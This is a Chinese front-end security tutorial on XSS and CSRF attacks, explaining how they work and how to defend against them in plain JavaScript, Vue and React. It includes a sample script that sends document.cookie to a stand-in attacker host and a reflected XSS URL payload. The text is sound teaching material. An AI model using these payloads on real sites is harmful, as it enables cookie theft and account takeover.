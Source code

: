 ```yaml
---
sidebar: auto
sidebarDepth: 2
---
```


# 网络安全

## 重要性
随着互联网的发达，各种WEB应用也变得越来越复杂，满足了用户的各种需求，但是随之而来的就是各种网络安全的问题。了解常见的前端攻击形式和保护我们的网站不受攻击是我们每个优秀fronter必备的技能。

## 分类
- XSS攻击
- CSRF攻击
- 网络劫持攻击(运营商劫持)
- 控制台注入代码
- 虚假网站钓鱼

## XSS攻击
XSS是一种经常出现在web应用中的计算机安全漏洞，为了和 CSS 区分，这里把攻击的第一个字母改成了X，于是叫做XSS，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。比如这些代码包括HTML代码和客户端脚本。攻击者利用XSS漏洞旁路掉访问控制——例如同源策略(same origin policy)，从而发起非法行为和获取网站的敏感数据。

### 发起方式
**实施XSS攻击需要具备两个条件**
- 一、需要向web页面注入恶意代码, 利用表单和url地址栏的查询字符串注入js非法代码
- 二、这些恶意代码能够被浏览器成功的执行

**XSS攻击的主要目的**
- 一、窃取Cookies和私信信息，发送到黑客网站上
```js
var i=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
```
- 二、发起非法行为
```js
地址栏：
http://www.xxx.com/?id=" /><script>alert(/xss/)</script><br x="

把id放入到img之后最终反射出来的HTML代码：
<div>
    <img src="/images/handler.ashx?id=" /><script>alert(/xss/)</script><br x="" />
</div>
```

### 经典案例
[CSDN注入](https://www.secpulse.com/archives/17830.html)  
[七种主要的XSS案例](https://www.anquanke.com/post/id/86585)

### 防范措施
DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了。
- 在使用 .innerHTML、.outerHTML、document.write() 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 .textContent、.setAttribute() 等。
- 转义HTML，过滤用户输入的 检查用户输入的内容中是否有非法内容。如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出。
- 如果用 Vue/React 技术栈，并且不使用 v-html/dangerouslySetInnerHTML 功能，就在前端 render 阶段避免 innerHTML、outerHTML 的 XSS 隐患。
- DOM 中的内联事件监听器，如 location、onclick、onerror、onload、onmouseover 等，a标签的 href 属性，JavaScript 的 eval()、setTimeout()、setInterval() 等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患，请务必避免。
```js
 <!-- 内联事件监听器中包含恶意代码 --> 
 < img   onclick = "UNTRUSTED"   onerror = "UNTRUSTED"   src = "data:image/png," > 
 <!-- 链接内包含恶意代码 --> 
 < a   href = "UNTRUSTED" > 1 </ a > 
 < script >  
 // setTimeout()/setInterval() 中调用恶意代码 
setTimeout( "UNTRUSTED" )
setInterval( "UNTRUSTED" )
 // location 调用恶意代码 
location.href =  'UNTRUSTED' 
 // eval() 中调用恶意代码 
 eval ( "UNTRUSTED" )
  </ script > 
```


## CSRF攻击
攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等。
Cookie是按照Domain存储的，当请求一个网站的时候，浏览器会自动把这个网站的Cookie发送过去。

### 发起方式
1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。 

### 图解流程
![图解CSRF](/.vuepress/public/security/csrf.png)

#### 防范措施
CSRF攻击是攻击者利用用户的身份(Cookie)操作用户帐户的一种攻击方式，我们可以利用修改登录态的位置（由cookie中放到地址栏或者自定义请求头部）和refer的判断来防御CSRF攻击，由前端和服务端配合一起解决CSRF攻击。
- **验证HTTP Referer字段**  
根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问 http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory，用户必须在 bank.example网站发起请求，referer的域名一定指向bank.example。如果 Referer 是其他网站的话，则有可能是黑客的CSRF攻击，拒绝该请求。但Referer值是由浏览器提供的，服务端可以绕过这个限制修改Referer字段发起攻击。
- **在HTTP头中自定义属性并验证**  
这种方法是使用token并进行验证，把token的位置由Cookie移到http请求的头部，使第三方网站无法盗用身份信息。解决了在请求地址栏中加入token的不便，同时通过 XMLHttpRequest请求的地址不会被记录到浏览器的地址栏，也不用担心token会透过 Referer泄露到其他网站中去。
- **添加验证码操作**  
增加与用户的互动，即便是最简陋的验证码也能起到很好的效果

## XSS与CSRF之间的区别
| 攻击类型 | 字面理解 | 宿主网站 | 攻击方式|
| ------- | -----  | :----:  | ---- |
| XSS(cross site script)|跨站脚本攻击，在别人的网站注入JS脚本以触发非法操作或者获取别人网站的私密信息| A网站 | 给A网站注入JS脚本|
| CSRF(cross site request forgery)|跨站请求伪造，在钓鱼网站伪装成正常网站，非法使用浏览器自带Cookie的机制发起伪造正常网站的请求| A网站 | 在B网站借助A网站的Cookie，伪造发起A网站的请求|


## 在Vue与React中的防范措施
- JSX中防止XSS注入攻击
  - React DOM 在渲染所有输入内容之前，默认会进行转义。它可以确保在你的应用中，永远不会注入那些并非自己明确编写的内容。所有的内容在渲染之前都被转换成了字符串。这样可以有效地防止 XSS（cross-site-scripting, 跨站脚本）攻击。
  - dangerouslySetInnerHTML 是 React 为浏览器 DOM 提供 innerHTML 的替换方案。但当你想设置 dangerouslySetInnerHTML 时，需要向其传递包含 key 为 __html 的对象，以此来警示你。

- 在Vue中尽量不要使用v-html
  - 在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 XSS 攻击。只在可信内容上使用 v-html，永不用在用户提交的内容上。

